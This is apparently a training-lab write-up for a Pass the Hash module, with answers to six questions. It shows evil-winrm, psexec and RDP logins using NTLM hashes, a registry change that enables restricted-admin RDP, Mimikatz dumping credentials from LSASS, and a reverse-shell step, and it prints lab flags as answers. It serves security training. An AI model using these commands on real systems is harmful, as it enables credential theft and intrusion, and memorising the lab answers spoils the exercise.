



# Section 20: Pass the Hash (PtH)

Module: 10. Password Attacks

---

## Questions & Answers

### 1. Access the target machine using any Pass-the-Hash tool. Submit the contents of the file located at C:\pth.txt.

Context:
```bash
┌─[eu-academy-2]─[10.10.14.98]─[htb-ac-2162140@pwnbox7]─[~]
└──╼ [★]$ evil-winrm -i 10.129.101.192 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> dir
*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\pth.txt
G3t_4CCE$$_V1@_PTH
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

**Answer:** `G3t_4CCE$$_V1@_PTH`

---

### 2. Try to connect via RDP using the Administrator hash. What is the name of the registry value that must be set to 0 for PTH over RDP to work? Change the registry key value and connect using the hash with RDP. Submit the name of the registry value name as the answer.

Context:


**Answer:** `DisableRestrictedAdmin`

---

### 3. Connect via RDP and use Mimikatz located in c:\tools to extract the hashes presented in the current session. What is the NTLM/RC4 hash of David's account?

Context:
- Enable restricted admin mode:
```bash
┌─[eu-academy-2]─[10.10.14.98]─[htb-ac-2162140@pwnbox7]─[~]
└──╼ [★]$ impacket-psexec Administrator@10.129.101.192 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.129.101.192.....
[*] Found writable share ADMIN$
[*] Uploading file kBPIOdea.exe
[*] Opening SVCManager on 10.129.101.192.....
[*] Creating service CZeE on 10.129.101.192.....
[*] Starting service CZeE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd C:\tools

C:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
The operation completed successfully.
```
- RDP to the target:
```bash
┌─[eu-academy-2]─[10.10.14.98]─[htb-ac-2162140@pwnbox7]─[~]
└──╼ [★]$ KRB5_CONFIG=/dev/null xfreerdp /v:10.129.101.192 /u:Administrator /pth:'30B3783CE2ABF1AF70F77D0660CF3453' /dynamic-resolution /cert:ignore +clipboard
```
- Extract from LSASS Memory
```bash
C:\tools>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::secrets
Domain : MS01
SysKey : 29fc3535fc09fb37d22dc9f3339f6875
ERROR kuhl_m_lsadump_secretsOrCache ; kull_m_registry_RegOpenKeyEx (SECURITY) (0x00000005)

mimikatz # sekurlsa::logonpasswords

# ...
Authentication Id : 0 ; 331959 (00000000:000510b7)
Session           : Service from 0
User Name         : david
Domain            : INLANEFREIGHT
Logon Server      : DC01
Logon Time        : 8/4/2026 10:56:08 PM
SID               : S-1-5-21-3325992272-2815718403-617452758-1107
        msv :
         [00000003] Primary
         * Username : david
         * Domain   : INLANEFREIGHT
         * NTLM     : c39f2beb3d2ec06a62cb887fb391dee0
         * SHA1     : 2277c28035275149d01a8de530cc13b74f59edfb
         * DPAPI    : eaa6db50c1544304014d858928d9694f
        tspkg :
        wdigest :
         * Username : david
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : david
         * Domain   : INLANEFREIGHT.HTB
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 326129 (00000000:0004f9f1)
Session           : Service from 0
User Name         : julio
Domain            : INLANEFREIGHT
Logon Server      : DC01
Logon Time        : 8/4/2026 10:56:07 PM
SID               : S-1-5-21-3325992272-2815718403-617452758-1106
        msv :
         [00000003] Primary
         * Username : julio
         * Domain   : INLANEFREIGHT
         * NTLM     : 64f12cddaa88057e06a81b54e73b949b
         * SHA1     : cba4e545b7ec918129725154b29f055e4cd5aea8
         * DPAPI    : 634db497baef212b777909a4ccaaf700
        tspkg :
        wdigest :
         * Username : julio
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : julio
         * Domain   : INLANEFREIGHT.HTB
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 995 (00000000:000003e3)
Session           : Service from 0
User Name         : IUSR
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 8/4/2026 10:55:07 PM
SID               : S-1-5-17
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
        ssp :
        credman :
# ...
```

**Answer:** `c39f2beb3d2ec06a62cb887fb391dee0`

---

### 4. Using David's hash, perform a Pass the Hash attack to connect to the shared folder \\DC01\david and read the file david.txt.

Context:
```bash
C:\tools>mimikatz.exe privilege::debug "sekurlsa::pth /user:david /rc4:c39f2beb3d2ec06a62cb887fb391dee0 /domain:INLANEFREIGHT.HTB /run:cmd.exe" exit
```


**Answer:** `D3V1d_Fl5g_is_Her3`

---

### 5. Using Julio's hash, perform a Pass the Hash attack to connect to the shared folder \\DC01\julio and read the file julio.txt.

Context:
```bash
C:\tools>mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64f12cddaa88057e06a81b54e73b949b /domain:INLANEFREIGHT.HTB /run:cmd.exe" exit
```



**Answer:** `JuL1()_SH@re_fl@g`

---

### 6. Using Julio's hash, perform a Pass the Hash attack, launch a PowerShell console and import Invoke-TheHash to create a reverse shell to the machine you are connected via RDP (the target machine, DC01, can only connect to MS01). Use the tool nc.exe located in c:\tools to listen for the reverse shell. Once connected to the DC01, read the flag in C:\julio\flag.txt.


**Answer:** `JuL1()_N3w_fl@g`

---

[Back to Module Index](./README.md)
